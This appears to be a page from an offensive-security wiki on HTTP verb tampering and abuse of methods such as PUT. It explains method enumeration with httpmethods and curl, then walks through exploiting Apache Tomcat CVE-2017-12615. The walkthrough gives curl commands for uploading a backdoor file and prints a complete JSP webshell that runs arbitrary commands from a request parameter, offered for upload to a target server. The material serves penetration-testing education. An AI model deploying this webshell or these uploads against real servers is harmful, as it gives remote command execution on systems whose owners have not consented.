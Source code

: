 ```yaml
---
authors: KenjiEndo15, ShutdownRepo, fransosiche, p0dalirius
category: web
---
```


# HTTP methods

## Theory

### Verb tampering

Some websites filter access to resources but fail at filtering out all HTTP methods. When an attacker tries to access a resource with different methods (GET, POST, HEAD, etc.) to bypass the access control, this is called HTTP verb tampering.

### Methods abuse

Some HTTP methods can be used for malicious purposes: `PUT`, `DELETE`, etc. The HTTP methods abuse is not aimed at gaining access to a specific page like verb tampering but more like what methods are accepted by the server and how can an attacker profit from those.

## Practice

### Recon

Testing for HTTP verb tampering and method abuse can be done with [httpmethods](https://github.com/ShutdownRepo/httpmethods).

```bash
httpmethods -u "https://target.url/"
httpmethods -u "https://target.url/restricted_page"
```

A manual HTTP request with the `OPTIONS` method can also be used to enumerate what methods are supported. This works if the `OPTIONS` methods is allowed in the first place.

```bash
curl --include --request OPTIONS "https://target.url/"
```

### Abusing the `PUT` method

The `PUT` method can be used to upload arbitrary files. Some directories have different rights, it can be useful to test the method on a wide range of directories.

```bash
curl --include --upload-file "backdoor.php" "https://target.url/"
```

### Apache Tomcat JSP PUT - CVE-2017-12615

Abusing the `PUT` method also applies to CVE-2017-12615: When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP PUTs enabled (e.g. via setting the read-only initialization parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

Exploitation of this vulnerability can be achieved manually by creating a `.jsp` file and by uploading it to the target server.


```java
<% out.write("<html><body><h3>JSP upload successfully</h3></body></html>"); %>
```


```bash
curl --include --upload-file "test.jsp" "https://target.url/"
```

If the upload is successful, the following JSP webshell ([source](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp)) can then be uploaded to attempt at execute arbitrary commands on the remote server.


```java
<%@ page import="java.util.*,java.io.*"%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```